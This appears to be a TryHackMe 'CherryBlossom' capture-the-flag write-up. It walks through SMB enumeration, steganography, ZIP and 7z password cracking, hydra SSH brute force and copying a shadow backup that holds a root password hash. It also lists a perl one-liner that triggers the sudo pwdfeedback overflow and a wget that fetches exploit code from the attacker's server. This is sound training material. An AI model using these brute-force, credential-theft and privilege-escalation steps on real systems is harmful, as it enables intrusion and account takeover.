

# TryHackMe-CherryBlossom

**Scope:**

- SMB (Server Message Block)
- Steganography
- ZIP Archive
- 7-ZIP
- pwdfeedback

**Keywords:**

- SSH Password Brute Force
- SHA512 Password Cracking
- ZIP Password Cracking
- pwdfeedback
- pwdfeedback vulnerability
- sudo vulnerability
- Steganography Approaches
- SMB Shares
- PNG Image Analysis
- HEX Layout Manipulation
- File Signatures
- XML File Reading
- SSH File Transfer
- Backup Files
- gcc
- gcc-7

**Main Commands:**

- `nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`
- `enum4linux -a $target_ip`
- `nmap --script "smb-enum-*" -p 139,445 $target_ip`
- `enum4linux-ng -A cherryblossom.thm`
- `smbclient -L \\cherryblossom.thm`
- `rpcclient -U "" -N cherryblossom.thm`
- `smbmap -H cherryblossom.thm`
- `smbclient \\\\cherryblossom.thm\\Anonymous`
- `smbmap -H $target_ip --download 'Anonymous/journal.txt'`
- `file journal.txt`
- `cat journal.txt | base64 -d > decodedjournal.txt`
- `stego-toolkit/scripts/check_png.sh decodedjournalobject`
- `zsteg -a decodedjournalobject`
- `stegpy decodedjournalobject`
- `hexeditor _journal.zip`
- `unzip _journal.zip`
- `zip2john _journal.zip > journalziphash`
- `sudo john --wordlist=/usr/share/wordlists/rockyou.txt journalziphash`
- `fcrackzip -bDu -p /usr/share/wordlists/rockyou.txt _journal.zip`
- `unzip _journal.zip`
- `7z2john Journal.ctz > ctzhash`
- `sudo john --wordlist=/usr/share/wordlists/rockyou.txt ctzhash`
- `7z x Journal.ctz`
- `cherrytree Journal.ctd`
- `hydra -l lily -P cherry-blossom.list ssh://cherryblossom.thm -V -f -e ns`
- `ncrack -u lily -P cherry-blossom.list  ssh://cherryblossom.thm`
- `ssh -o MACs=hmac-sha2-256 lily@cherryblossom.thm -p 22`
- `scp -o MACs=hmac-sha2-256 lily@cherryblossom.thm:/var/backups/passwd.bak /root/Desktop/CyberLearningFramework/cherryblossom/passwd.bak`
- `scp -o MACs=hmac-sha2-256 lily@cherryblossom.thm:/var/backups/shadow.bak /root/Desktop/CyberLearningFramework/cherryblossom/shadow.bak`
- `hashid '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0’`
- `sudo john --wordlist=cherry-blossom.list shadowhash`
- `hashcat -m1800 -a0 --force '$6$zV7zbU1b$FomT/aM2UMXqNnqspi57K/hHBG8DkyACiV6ykYmxsZG.vLALyf7kjsqYjwW391j1bue2/.SVm91uno5DUX7ob0' cherry-blossom.list`
- `searchsploit "sudo 1.8”`
- `gcc sudo-cve-2019-18634/exploit.c -o exploitpwd`
- `python3 -m http.server 8000`

**System Commands:**

- `querydominfo`
- `enumdomusers`
- `queryuser samba`
- `enumprivs`
- `getusrdompwinfo 0x3e8`
- `lsaenumsid`
- `createdomuser overthenet`
- `mget *`
- `dpkg --version`
- `uname -a`
- `su johan`
- `sudo --version`
- `sudo -l`
- `which perl`
- `perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S /bin/bash`
- `wget http://10.2.37.37:8000/exploit.c`
- `/usr/bin/gcc-7 exploit.c -o cveexploit`

### Laboratory Environment

[CherryBlossom](https://tryhackme.com/r/room/cherryblossom)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sS -sV -sC -T4 -A -O -oN nmap_result.txt -Pn $target_ip`

```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:ee:30:4f:f8:f7:9f:32:6e:42:95:f2:1a:1a:04:d3 (RSA)
|   256 dc:fc:de:d6:ec:43:61:00:54:9b:7c:40:1e:8f:52:c4 (ECDSA)
|_  256 12:81:25:6e:08:64:f6:ef:f5:0c:58:71:18:38:a5:c6 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Linux 3.10 (93%), Linux 3.12 (93%), Linux 3.18 (93%), Linux 3.19 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: UBUNTU; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: cherryblossom
|   NetBIOS computer name: UBUNTU\x00
|   Domain name: \x00
|   FQDN: cherryblossom
|_  System time: 2024-09-26T11:54:33+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-09-26T10:54:33
|_  start_date: N/A
|_nbstat: NetBIOS name: UBUNTU, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: -22m02s, deviation: 34m37s, median: -2m03s
```

> **SMB (Server Message Block) Enumeration**
> 

`enum4linux -a $target_ip`

```bash
=======================================( Users on 10.10.104.59 )=======================================
                                                                                                                                                  
index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: samba    Name:   Desc:                                                                             

user:[samba] rid:[0x3e8]

 =================================( Share Enumeration on 10.10.104.59 )=================================
                                                                                                                                                  
                                                                                                                                                  
        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      Anonymous File Server Share
        IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            UBUNTU

[+] Attempting to map shares on 10.10.104.59                                                                                                      
                                                                                                                                                  
//10.10.104.59/Anonymous        Mapping: OK Listing: OK Writing: N/A                                                                              

[E] Can't understand response:                                                                                                                    
                                                                                                                                                  
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*                                                                                                        
//10.10.104.59/IPC$     Mapping: N/A Listing: N/A Writing: N/A

 ============================( Password Policy Information for 10.10.104.59 )============================
                                                                                                                                                  
                                                                                                                                                  

[+] Attaching to 10.10.104.59 using a NULL share

[+] Trying protocol 139/SMB...

[+] Found domain(s):

        [+] UBUNTU
        [+] Builtin

[+] Password Info for Domain: UBUNTU

        [+] Minimum password length: 5
        [+] Password history length: None
        [+] Maximum password age: 37 days 6 hours 21 minutes 
        [+] Password Complexity Flags: 000000

                [+] Domain Refuse Password Change: 0
                [+] Domain Password Store Cleartext: 0
                [+] Domain Password Lockout Admins: 0
                [+] Domain Password No Clear Change: 0
                [+] Domain Password No Anon Change: 0
                [+] Domain Password Complex: 0

        [+] Minimum password age: None
        [+] Reset Account Lockout Counter: 30 minutes 
        [+] Locked Account Duration: 30 minutes 
        [+] Account Lockout Threshold: None
        [+] Forced Log off Time: 37 days 6 hours 21 minutes 

[+] Retieved partial password policy with rpcclient:                                                                                              
                                                                                                                                                  
                                                                                                                                                  
Password Complexity: Disabled                                                                                                                     
Minimum Password Length: 5

 =======================================( Groups on 10.10.104.59 )=======================================
                                                                                                                                                  
                                                                                                                                                  
[+] Getting builtin groups:                                                                                                                       
                                                                                                                                                  
                                                                                                                                                  
[+]  Getting builtin group memberships:                                                                                                           
                                                                                                                                                  
                                                                                                                                                  
[+]  Getting local groups:                                                                                                                        
                                                                                                                                                  
                                                                                                                                                  
[+]  Getting local group memberships:                                                                                                             
                                                                                                                                                  
                                                                                                                                                  
[+]  Getting domain groups:                                                                                                                       
                                                                                                                                                  
                                                                                                                                                  
[+]  Getting domain group memberships:                                                                                                            
                                                                                                                                                  
                                                                                                                                                  
 ==================( Users on 10.10.104.59 via RID cycling (RIDS: 500-550,1000-1050) )==================
                                                                                                                                                  
                                                                                                                                                  
[I] Found new SID:                                                                                                                                
S-1-22-1                                                                                                                                          

[I] Found new SID:                                                                                                                                
S-1-5-32                                                                                                                                          

[I] Found new SID:                                                                                                                                
S-1-5-32                                                                                                                                          

[I] Found new SID:                                                                                                                                
S-1-5-32                                                                                                                                          

[I] Found new SID:                                                                                                                                
S-1-5-32                                                                                                                                          

[+] Enumerating users using SID S-1-5-32 and logon username '', password ''                                                                       
                                                                                                                                                  
S-1-5-32-544 BUILTIN\Administrators (Local Group)                                                                                                 
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)

[+] Enumerating users using SID S-1-5-21-3394966362-3970299913-3211979797 and logon username '', password ''                                      
                                                                                                                                                  
S-1-5-21-3394966362-3970299913-3211979797-501 UBUNTU\nobody (Local User)                                                                          
S-1-5-21-3394966362-3970299913-3211979797-513 UBUNTU\None (Domain Group)
S-1-5-21-3394966362-3970299913-3211979797-1000 UBUNTU\samba (Local User)

```

`nmap --script "smb-enum-*" -p 139,445 $target_ip`

```bash
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: <blank>
|   \\10.10.104.59\Anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: Anonymous File Server Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\samba
|     Anonymous access: READ/WRITE
|   \\10.10.104.59\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (Samba 4.7.6-Ubuntu)
|     Users: 4
|     Max Users: <unlimited>
|     Path: C:\tmp
|_    Anonymous access: READ/WRITE
| smb-enum-users: 
|   UBUNTU\samba (RID: 1000)
|     Full name:   
|     Description: 
|_    Flags:       Normal user account
| smb-enum-domains: 
|   Builtin
|     Groups: n/a
|     Users: n/a
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|     Account lockout disabled
|   UBUNTU
|     Groups: n/a
|     Users: samba
|     Creation time: unknown
|     Passwords: min length: 5; min age: n/a days; max age: n/a days; history: n/a passwords
|_    Account lockout disabled
| smb-enum-sessions: 
|_  <nobody>

```

`enum4linux-ng -A cherryblossom.thm`

```bash
==============================================
|    SMB Dialect Check on cherryblossom.thm    |
 ==============================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                               
  SMB 1.0: true                                                                                                                                   
  SMB 2.02: true                                                                                                                                  
  SMB 2.1: true                                                                                                                                   
  SMB 3.0: true                                                                                                                                   
  SMB 3.1.1: true                                                                                                                                 
Preferred dialect: SMB 3.0                                                                                                                        
SMB1 only: false                                                                                                                                  
SMB signing required: false                                                                                                                                                                                                                                             

 ==============================================
|    RPC Session Check on cherryblossom.thm    |
 ==============================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE

 ========================================================
|    Domain Information via RPC for cherryblossom.thm    |
 ========================================================
[+] Domain: WORKGROUP
[+] Domain SID: NULL SID
[+] Membership: workgroup member

[REDACTED] - MORE

 ====================================================
|    OS Information via RPC for cherryblossom.thm    |
 ====================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[+] Found OS information via 'srvinfo'
[+] After merging OS information we have the following result:
OS: Linux/Unix (Samba 4.7.6-Ubuntu)                                                                                                               
OS version: '6.1'                                                                                                                                 
OS release: ''                                                                                                                                    
OS build: '0'                                                                                                                                     
Native OS: Windows 6.1                                                                                                                            
Native LAN manager: Samba 4.7.6-Ubuntu                                                                                                            
Platform id: '500'                                                                                                                                
Server type: '0x809a03'                                                                                                                           
Server type string: Wk Sv PrQ Unx NT SNT Samba 4.7.6-Ubuntu                                                                                       

 ==========================================
|    Users via RPC on cherryblossom.thm    |
 ==========================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': timed out
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': timed out
 ===========================================
|    Shares via RPC on cherryblossom.thm    |
 ===========================================
[*] Enumerating shares
[+] Found 2 share(s):
Anonymous:                                                                                                                                        
  comment: Anonymous File Server Share                                                                                                            
  type: Disk                                                                                                                                      
IPC$:                                                                                                                                             
  comment: IPC Service (Samba 4.7.6-Ubuntu)                                                                                                       
  type: IPC                                                                                                                                       
[*] Testing share Anonymous
[-] Could not check share: timed out
[*] Testing share IPC$
[-] Could not check share: STATUS_OBJECT_NAME_NOT_FOUND

[REDACTED] - MORE
```

`smbclient -L \\cherryblossom.thm`

```bash
Password for [WORKGROUP\root]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        Anonymous       Disk      Anonymous File Server Share
        IPC$            IPC       IPC Service (Samba 4.7.6-Ubuntu)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            UBUNTU

```

`rpcclient -U "" -N cherryblossom.thm`

```bash
rpcclient $> srvinfo
        UBUNTU         Wk Sv PrQ Unx NT SNT Samba 4.7.6-Ubuntu
        platform_id     :       500
        os version      :       6.1
        server type     :       0x809a03
rpcclient $> querydominfo
Domain:         WORKGROUP
Server:         UBUNTU
Comment:        Samba 4.7.6-Ubuntu
Total Users:    1
Total Groups:   0
Total Aliases:  0
Sequence No:    1727348422
Force Logoff:   -1
Domain Server State:    0x1
Server Role:    ROLE_DOMAIN_PDC
Unknown 3:      0x1
rpcclient $> enumdomusers
user:[samba] rid:[0x3e8]
rpcclient $> queryuser samba
result was NT_STATUS_UNSUCCESSFUL
rpcclient $> enumprivs
found 9 privileges

SeMachineAccountPrivilege               0:6 (0x0:0x6)
SeTakeOwnershipPrivilege                0:9 (0x0:0x9)
SeBackupPrivilege               0:17 (0x0:0x11)
SeRestorePrivilege              0:18 (0x0:0x12)
SeRemoteShutdownPrivilege               0:24 (0x0:0x18)
SePrintOperatorPrivilege                0:4097 (0x0:0x1001)
SeAddUsersPrivilege             0:4098 (0x0:0x1002)
SeDiskOperatorPrivilege                 0:4099 (0x0:0x1003)
SeSecurityPrivilege             0:8 (0x0:0x8)

rpcclient $> getusrdompwinfo 0x3e8
    &info: struct samr_PwInfo
        min_password_length      : 0x0005 (5)
        password_properties      : 0x00000000 (0)
               0: DOMAIN_PASSWORD_COMPLEX  
               0: DOMAIN_PASSWORD_NO_ANON_CHANGE
               0: DOMAIN_PASSWORD_NO_CLEAR_CHANGE
               0: DOMAIN_PASSWORD_LOCKOUT_ADMINS
               0: DOMAIN_PASSWORD_STORE_CLEARTEXT
               0: DOMAIN_REFUSE_PASSWORD_CHANGE

rpcclient $> lsaenumsid
found 6 SIDs

S-1-5-32-550
S-1-5-32-548
S-1-5-32-551
S-1-5-32-549
S-1-5-32-544
S-1-1-0
rpcclient $> createdomuser overthenet
result was NT_STATUS_ACCESS_DENIED
rpcclient $> 
```

`smbmap -H cherryblossom.thm`

```bash
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[*] Closed 1 connections  
```

`smbclient \\\\cherryblossom.thm\\Anonymous`

```bash
Password for [WORKGROUP\root]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sun Feb  9 19:22:51 2020
  ..                                  D        0  Sun Feb  9 12:48:18 2020
  journal.txt                         N  3470998  Sun Feb  9 19:20:53 2020

                10253588 blocks of size 1024. 4670748 blocks available
smb: \> mget *
Get file journal.txt? y
getting file \journal.txt of size 3470998 as journal.txt (289.9 KiloBytes/sec) (average 289.9 KiloBytes/sec)
```

`smbmap -H $target_ip --download 'Anonymous/journal.txt'`

```bash
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
[+] Starting download: Anonymous\journal.txt (3470998 bytes)

[REDACTED] - MORE
```

> **PNG Image Data Analysis & Extract Embedded File**
> 

`file journal.txt`

```bash
journal.txt: ASCII text
```

`cat journal.txt| head`

```bash
iVBORw0KGgoAAAANSUhEUgAABQAAAANVCAIAAACoFcTeAAEAAElEQVR42iT9V7DuW3bdh628/vHL
+9s5nRxuzt19O6Kb6G40CBJMgkALImWWaVFFPVhlyiWXXZZDWS4nSaRcdllSFUUSBgmagAmg0UAn
dO57++Zwzj1hn533/vL3zysvP/TjeJnPo8b8zTng7rW7DjgEgYMAeeigRx5ZZIEFBgLgMYAWUoyg
txYg5Lswdc4jAC3yCECtlAWAWotp6DzA3ntoauegN45I7zBFxEiNOAMKxJ4QypZeEUIAMqI2QMiQ
4wICgBzAjhD611//1YP7J5bY3/nbf/etn7/x0QcPYx5QCqE2TSkEcACpRsnK6lILA4B2wipjAMAQ
SGwIYsBbDB3SiEAbxZGQjVI2CEIpNaRuEA17nX5EqXZ+Mp+WhTFVeX33qhOiLJZ7KxvXb9xcVtOP
Prr3hpx7oK/73q88/1qdVRfHozw2k3o6Bw1mEBbaOgACCIA31ADPbrTXN1a2jRBCGGBASoI4arUp
gjAIAlIaIayotXQYcg8dJt4YihBSzBhVNY01pgG6kVnelMJ5AUQFtIGKYgapgxYzSICx1McUe4i9
gwxbWWELHGEMO4wjShAmxDhjrZcWU0wpSXFsHFTGOOcY0l4opy3CYQe11lYHPIl0k30kLpaz2Uq7
+9T+3ZvxzSRMxmIJPGh3I1gLY5xH+Ps//N5zL7zwtS/+6g9/+sNay3hr5Q9//Mcf3X/QQulv/+3f
```

`cat journal.txt | base64 -d > decodedjournal.txt`

`file decodedjournal.txt`

```bash
decodedjournal.txt: PNG image data, 1280 x 853, 8-bit/color RGB, non-interlaced
```

`ls -lsa stego-toolkit/scripts`

```bash
4 drwxr-xr-x 2 root root 4096 Sep 26 09:06 .
4 drwxr-xr-x 9 root root 4096 Sep 26 09:06 ..
4 -rwxr-xr-x 1 root root 1332 Sep 26 09:06 brute_jpg.sh
4 -rwxr-xr-x 1 root root  687 Sep 26 09:06 brute_png.sh
4 -rwxr-xr-x 1 root root 2514 Sep 26 09:06 check_jpg.sh
4 -rwxr-xr-x 1 root root 3649 Sep 26 09:06 check_png.sh
4 -rwxr-xr-x 1 root root 2126 Sep 26 09:06 examine_data.py
8 -rwxr-xr-x 1 root root 6909 Sep 26 09:06 pybrute.py
4 -rwxr-xr-x 1 root root  600 Sep 26 09:06 start_ssh.sh
4 -rwxr-xr-x 1 root root 1063 Sep 26 09:06 start_vnc.sh

```

**For script source:**

[https://github.com/DominicBreuker/stego-toolkit](https://github.com/DominicBreuker/stego-toolkit)

`cp decodedjournal.txt decodedjournalobject`

`stego-toolkit/scripts/check_png.sh decodedjournalobject`

```bash
#################################
########## PNG CHECKER ##########
#################################
Checking file decodedjournalobject

decodedjournalobject: PNG image data, 1280 x 853, 8-bit/color RGB, non-interlaced
identify decodedjournalobject:
Image:
  Filename: decodedjournalobject
  Permissions: rw-r--r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Class: DirectClass
  Geometry: 1280x853+0+0
  Units: Undefined
  Colorspace: sRGB
  Type: TrueColor
  Base type: Undefined
  Endianness: Undefined
  Depth: 8-bit
  Channel depth:
    red: 8-bit
    green: 8-bit
    blue: 8-bit
    
[REDACTED] - MORE

#############################
########## binwalk ##########
#############################

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1280 x 853, 8-bit/color RGB, non-interlaced
41            0x29            Zlib compressed data, best compression

################################
########## stegdetect ##########
################################
stego-toolkit/scripts/check_png.sh: line 62: stegdetect: command not found

#############################
########## strings ##########
#############################
IHDR
IDATx
iQE=Xe
CY.'I
\vYR
1Uy}
SL)Iql
b       <hw#X

[REDACTED] - MORE
```

`zsteg -a decodedjournalobject` 

```bash
imagedata           .. text: "DDHRDB \"#"
b1,b,msb,xy         .. text: "^w8)+\nR-K"
b2,r,lsb,xy         .. text: ")Nn@_^s1<"
b2,rgb,msb,xy       .. text: "4+.r\tYKyH"
b3,r,lsb,xy         .. text: "6*Y/U]t5"
b3,bgr,msb,xy       .. text: "{<HP8@aQ"
b3p,r,msb,xy        .. text: "*T/keZX[-"
b4,r,lsb,xy         .. text: "(sxhTj06{8"
b4,r,msb,xy         .. text: "4\#$p$3KF"
b4,b,msb,xy         .. text: "P2$Me<+7"
b4,bgr,msb,xy       .. text: "c\n  !P20"
b5,bgr,msb,xy       .. file: OpenPGP Public Key
b5p,r,msb,xy        .. text: ")')a)&VL"
b5p,g,lsb,xy        .. text: "$../%%SBYK]*>.#=89"
b5p,b,lsb,xy        .. text: "YIQX@XZQ"
b5p,b,msb,xy        .. file: OpenPGP Public Key
b5p,rgb,lsb,xy      .. text: "0#ZMAk}Y"
b5p,bgr,lsb,xy      .. text: "\\LMNUN]GDE\\EZSPJ"
b6,rgb,msb,xy       .. text: "$CR,I58A"
b6p,r,lsb,xy        .. text: "}}}|p`gb"
b6p,rgb,lsb,xy      .. text: "|t}v}v}spa`afo`j"
b6p,bgr,lsb,xy      .. text: "d\\je/HW:"
b7p,r,lsb,xy        .. text: "???>8030WVUETVA>GCX@H900"
b7p,g,lsb,xy        .. text: "HJJKIIUPWSWJNJIONOAHT1@K"
b7p,b,lsb,xy        .. text: "WSUVPVVUmmlalk_IVX```JPI"
b7p,rgb,lsb,xy      .. text: ">:?:?:?981012704WSWQUKENUPWT@C?=G>CCXa@HH88K0019"
b7p,bgr,lsb,xy      .. text: "VRSRURWQPQVQVUTRmkmkmaaZmlkb^WIOWLYY`m`h`XJQPLIS"
b8,r,lsb,xy         .. text: "+)+(*%\"'*(+* !"
b8,g,lsb,xy         .. text: "$$%&%&%'$%$%*+(*+))++%%\"'&%&$#'%' '! %$(* "
b8,b,lsb,xy         .. text: "+)))*)+(((+(+**)6565600-6651/+$'+&,,06040,%((&$)pSP"
b8,rgb,lsb,xy       .. text: "*)++6))5+)6(+5*+6%%0\"%0'\"-*'6(&6+%5*&1 $/!#+"
b8,rgb,msb,xy       .. text: ":*,*2,J2l2"
b8,bgr,lsb,xy       .. text: "6++5))6)+5+(6+*0%%0%\"-\"'6'*6&(5%+1&*/$ +#!$'"
b8,bgr,msb,xy       .. text: "*,*J,22l2"
b4,b,lsb,xy,prime   .. file: OpenPGP Public Key
b4,b,msb,xy,prime   .. file: OpenPGP Public Key
b4,bgr,lsb,xy,prime .. file: OpenPGP Secret Key
b5,g,msb,xy,prime   .. file: OpenPGP Secret Key
b5p,bgr,lsb,xy,prime.. text: "1hDQ.Q:%(pq"
b6,g,lsb,xy,prime   .. file: OpenPGP Secret Key
b6,bgr,lsb,xy,prime .. text: "(~Ziq~L3c"
b6p,g,lsb,xy,prime  .. file: OpenPGP Secret Key

[REDACTED] - MORE
```

**For script source:**

[https://github.com/zed-0xff/zsteg](https://github.com/zed-0xff/zsteg)

`stegpy decodedjournalobject` 

```bash
File _journal.zip succesfully extracted from decodedjournalobject
```

**For script source:**

[https://github.com/izcoser/stegpy](https://github.com/izcoser/stegpy)

> **HEX Layout Manipulation Phase**
> 

`file _journal.zip`

```bash
_journal.zip: JPEG image data
```

`hexeditor _journal.zip`



**For file signatures:**

[List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

`file _journal.zip`

```bash
_journal.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
```

> **ZIP Archive Password Cracking Phase**
> 

`unzip _journal.zip`

```bash
Archive:  _journal.zip
[_journal.zip] Journal.ctz password: 
   skipping: Journal.ctz             incorrect password
```

`zip2john _journal.zip > journalziphash`

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt journalziphash`

```bash
september        (_journal.zip/Journal.ctz)
```

`fcrackzip -bDu -p /usr/share/wordlists/rockyou.txt _journal.zip`

```bash
PASSWORD FOUND!!!!: pw == september
```

`unzip _journal.zip`

```bash
Archive:  _journal.zip
[_journal.zip] Journal.ctz password: 
  inflating: Journal.ctz 
```

> **7-ZIP Password Cracking Phase**
> 

`file Journal.ctz`

```bash
Journal.ctz: 7-zip archive data, version 0.4
```

`7z2john Journal.ctz > ctzhash`

`sudo john --wordlist=/usr/share/wordlists/rockyou.txt ctzhash` 

```bash
tigerlily        (Journal.ctz)
```

`7z x Journal.ctz`

```bash
Extracting archive: Journal.ctz
--
Path = Journal.ctz
Type = 7z
Physical Size = 70434
Headers Size = 146
Method = LZMA2:16 7zAES
Solid = -
Blocks = 1

    
Enter password (will not be echoed):
Everything is Ok

Size:       158136
Compressed: 70434

```

> **XML File Extraction**
> 

`file Journal.ctd`

```bash
Journal.ctd: XML 1.0 document, ASCII text, with very long lines (61172)
```

`cherrytree Journal.ctd`


`cat cherry-blossom.list | head`

```bash
%^@*peckgan76
%^78JiMb
%^*YUGJ_B
%^*@#(#
%^&iloverico%^&iloverico
%^&gh77
%^&9047
%^&890Qwe
%^&*yup456
%^&*KIng
```

**SSH Password Brute Force**

`hydra -l lily -P cherry-blossom.list ssh://cherryblossom.thm -V -f -e ns`

```bash
[22][ssh] host: cherryblossom.thm   login: lily   password: Mr.$un$hin3
```

`ncrack -u lily -P cherry-blossom.list  ssh://cherryblossom.thm`

```bash
[REDACTED] - SAME PASSWORD
```

> **SSH Connection & Enumeration Phase**
> 

`ssh -o MACs=hmac-sha2-256 lily@cherryblossom.thm -p 22`

```bash
lily@cherryblossom.thm's password: 

        #####################################
        ##########  Welcome, Lily  ##########
        #####################################

lily@cherryblossom:~$ whoami
lily
lily@cherryblossom:~$ id
uid=1002(lily) gid=1002(lily) groups=1002(lily)
lily@cherryblossom:~$ pwd
/home/lily
lily@cherryblossom:~$ dpkg --version
Debian 'dpkg' package management program version 1.19.0.5 (amd64).
This is free software; see the GNU General Public Licence version 2 or
later for copying conditions. There is NO warranty.
lily@cherryblossom:~$ uname -a
Linux cherryblossom 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
lily@cherryblossom:~$ cd /var/backups
lily@cherryblossom:/var/backups$ ls -lsa
total 2000
   4 drwxr-xr-x  2 root root      4096 Feb 10  2020 .
   4 drwxr-xr-x 14 root root      4096 Apr 26  2018 ..
  72 -rw-r--r--  1 root root     71680 Feb 10  2020 alternatives.tar.0
   4 -rw-r--r--  1 root root      3338 Feb  9  2020 alternatives.tar.1.gz
   4 -rw-r--r--  1 root root      3016 Feb  9  2020 apt.extended_states.0
   4 -rw-r--r--  1 root root        11 Feb  9  2020 dpkg.arch.0
   4 -rw-r--r--  1 root root        43 Feb  9  2020 dpkg.arch.1.gz
   4 -rw-r--r--  1 root root       280 Feb  9  2020 dpkg.diversions.0
   4 -rw-r--r--  1 root root       160 Feb  9  2020 dpkg.diversions.1.gz
   4 -rw-r--r--  1 root root       265 Apr 26  2018 dpkg.statoverride.0
   4 -rw-r--r--  1 root root       190 Apr 26  2018 dpkg.statoverride.1.gz
1476 -rw-r--r--  1 root root   1510615 Feb  9  2020 dpkg.status.0
 396 -rw-r--r--  1 root root    402441 Feb  9  2020 dpkg.status.1.gz
   4 -rw-------  1 root root       936 Feb  9  2020 group.bak
   4 -rw-------  1 root shadow     771 Feb  9  2020 gshadow.bak
   4 -rw-------  1 root root      2382 Feb  9  2020 passwd.bak
   4 -r--r--r--  1 root shadow    1481 Feb  9  2020 shadow.bak
lily@cherryblossom:/var/backups$ 

```

**SSH File Transfer Phase**

`scp -o MACs=hmac-sha2-256 lily@cherryblossom.thm:/var/backups/passwd.bak /root/Desktop/CyberLearningFramework/cherryblossom/passwd.bak`

```bash
lily@cherryblossom.thm's password: 
scp: remote open "/var/backups/passwd.bak": Permission denied
```

`scp -o MACs=hmac-sha2-256 lily@cherryblossom.thm:/var/backups/shadow.bak /root/Desktop/CyberLearningFramework/cherryblossom/shadow.bak`

```bash
lily@cherryblossom.thm's password: 
shadow.bak  
```

`mv shadow.bak lilyshadow`

`cat lilyshadow` 

```bash
root:$6$l81PobKw$DE0ra9mYvNY5rO0gzuJCCXF9p08BQ8ALp5clk/E6RwSxxrw97h2Ix9O6cpVHnq1ZUw3a/OCubATvANEv9Od9F1:18301:0:99999:7:::

[REDACTED] - MORE

